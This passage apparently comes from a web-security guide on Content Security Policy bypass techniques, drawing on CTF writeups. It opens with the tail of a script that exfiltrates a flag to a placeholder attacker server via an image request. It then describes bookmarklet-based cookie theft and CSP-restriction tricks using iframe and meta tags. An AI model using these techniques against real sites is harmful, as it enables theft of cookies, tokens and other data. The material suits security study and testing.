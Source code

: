 ```html
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

### Via Bookmarklets

This attack would imply some social engineering where the attacker **convinces the user to drag and drop a link over the bookmarklet of the browser**. This bookmarklet would contain **malicious javascript** code that when drag\&dropped or clicked would be executed in the context of the current web window, **bypassing CSP and allowing to steal sensitive information** such as cookies or tokens.

For more information [**check the original report here**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### CSP bypass by restricting CSP

In [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), CSP is bypassed by injecting inside an allowed iframe a more restrictive CSP that disallowed to load a specific JS file that, then, via **prototype pollution** or **dom clobbering** allowed to **abuse a different script to load an arbitrary script**.

You can **restrict a CSP of an Iframe** with the **`csp`** attribute:

{% code overflow="wrap" %}
```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
{% endcode %}

In [**this CTF writeup**](https://github.com/aszx87410/ctf-writeups/issues/48), it was possible via **HTML injection** to **restrict** more a **CSP** so a script preventing CSTI was disabled and therefore the **vulnerability became exploitable.**\
CSP can be made more restrictive using **HTML meta tags** and inline scripts can disabled **removing** the **entry** allowing their **nonce** and **enable specific inline script via sha**:

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';">
```

### JS exfiltration with Content-Security-Policy-Report-Only

